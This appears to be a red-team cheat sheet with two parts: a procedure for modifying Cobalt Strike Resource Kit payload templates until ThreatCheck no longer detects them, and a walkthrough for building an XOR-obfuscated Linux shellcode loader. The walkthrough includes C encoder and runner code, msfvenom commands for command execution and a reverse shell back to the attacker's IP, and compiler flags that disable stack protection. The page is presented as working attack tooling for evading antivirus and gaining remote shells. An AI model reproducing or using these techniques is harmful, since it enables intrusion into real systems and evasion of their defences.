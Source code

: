 ##### _Cobalt Strike Resource Kit modification:_
The Resource Kit contains templates for Cobalt Strike's script\-based payloads including PowerShell, VBA and HTA\.
>The obfuscation of the template “template\.x64\.ps1” applies to the “jump winrm64” command\. 
- 1\. Run ThreatCheck against a "template\.ps1" script \(located on the CS client in “cobaltstrike\\ResourceKit\\
- 2\. Based on the output, identify where the bad code is located in the script and change it \(find & replace\)\.
- 3\. Test again with ThreatCheck and repeat until no more threads are detected\.
- 4\. Load the Aggressor script \(resources\.cna\) to enable the use of the modified templates\. 



---
### Linux payload development: 
##### _Obfuscated payload based on C code:_
- 1\. Create encoder:
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    unsigned char buf[] = "<SHELLCODE>";
    int main (int argc, char **argv)
    {
        char xor_key = 'J';
        int payload_length = (int) sizeof(buf);
        for (int i=0; i<payload_length; i++)
        {
            printf("\\x%02X",buf[i]^xor_key);
        }
        return 0;
    }
    ```
- 2\. Create shellcode and place it in the placeholder:
	- Run OS command: `msfvenom -p linux/x64/exec CMD="<COMMAND>" \-f c`
	- Reverse shell payload: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<own ip> LPORT=<port> -f c`
- 3\. Compile encoder: `gcc -o encoder.out encoder.c`
- 4\. Run the encoded and copy/paste the string in the script below: `./encoded`
- 5\. Create obfuscated payload:
    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    // Our obfuscated shellcode
    unsigned char buf[] = "<ENCODED STRING>";
    int main (int argc, char **argv)
    {
        char xor_key = 'J';
        int arraysize = (int) sizeof(buf);
        for (int i=0; i<arraysize-1; i++)
        {
            buf[i] = buf[i]^xor_key;
        }
        int (*ret)() = (int(*)())buf;
        ret();
    }
    ```
- 6\. Compile payload \(the extention of the payload doesn’t matter and can be used to bypass some security restrictions\): `gcc -m64 -fno-stack-protector -z execstack -o payload.out payload.c`
